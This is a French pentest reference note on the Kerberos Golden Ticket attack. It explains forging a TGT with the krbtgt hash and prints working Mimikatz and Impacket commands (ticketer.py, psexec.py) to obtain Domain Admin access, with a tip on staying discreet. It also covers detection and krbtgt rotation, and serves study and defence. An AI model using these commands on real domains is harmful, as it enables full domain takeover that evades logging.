

# 👑 Golden Ticket

> [!info] **En 1 phrase**
> Golden Ticket = **forger un TGT** valide pour n'importe quel utilisateur en possédant la clé de
> **krbtgt** : on peut prétendre être **Domain Admin** sans jamais contacter le KDC.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> Le KDC valide les TGT avec la clé **krbtgt**. Si on la possède, on peut **signer** nos propres TGT.
> Rien ne distingue un TGT forgé d'un TGT légitime (même structure, même signature valide).

---

## ⚙️ Comment ça marche

1. **Obtenir le hash de krbtgt** : [[DCsync|DCsync]] sur le DC (`secretsdump -just-dc`).
2. **Obtenir le SID du domaine** : `nxc ldap --get-sid` ou depuis le SID d'un compte.
3. **Forger** un TGT pour un utilisateur factice dans le groupe Domain Admins.
4. **Utiliser** le TGT → accès total au domaine.

---

## 🛠️ Exploitation

```bash
# Mimikatz (sur un poste Windows, en admin)
kerberos::golden /user:fakeadmin /domain:corp.local \
  /sid:S-1-5-21-1234567890-1234567890-1234567890 \
  /krbtgt:<hash_ntlm> /ptt

# Impacket (Linux)
ticketer.py -nthash <hash_ntlm> -domain-sid S-1-5-21-... -domain corp.local fakeadmin
export KRB5CCNAME=fakeadmin.ccache
psexec.py -k -no-pass corp.local/fakeadmin@DC01.corp.local
```

---

## 🔍 Détection & Défense

| Indicateur | Détail |
|---|---|
| **Événement 4769/4624** | TGT avec des attributs anormaux (durée très longue, SID de groupes impossibles) |
| **Réponse** | Changer le mdp de krbtgt **2 fois** (invalide les anciens), surveiller les accès admin anormaux |

> [!danger] 🚨 **Durée de vie**
> Un Golden Ticket reste valide **tant que le hash krbtgt n'a pas changé**. Révoquer = 2 rotations
> du mdp krbtgt (historique de 2 rotations prises en compte).

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Le /ptt ou le export**
> `-ptt` importe directement dans la session ; sinon exporte le ticket et utilise `KRB5CCNAME` sous Linux.

> [!warning] ⚠️ **Piège** : ne PAS utiliser un vrai nom d'utilisateur existant pour le "fake" si tu veux rester discret ; un SID faux d'utilisateur peut casser le logging (utiliser un SID existant d'un compte réel reste plus "propre" pour l'opération).

---

## 🔗 Liens

- [[Kerberos - Le protocole|👑 Kerberos]]
- [[DCsync|📥 DCsync]] (source du hash krbtgt)
- [[Silver Ticket|💠 Silver Ticket]] (version "service" du même principe)
- → Note complète : [[05 - Active Directory|👑 Active Directory]]
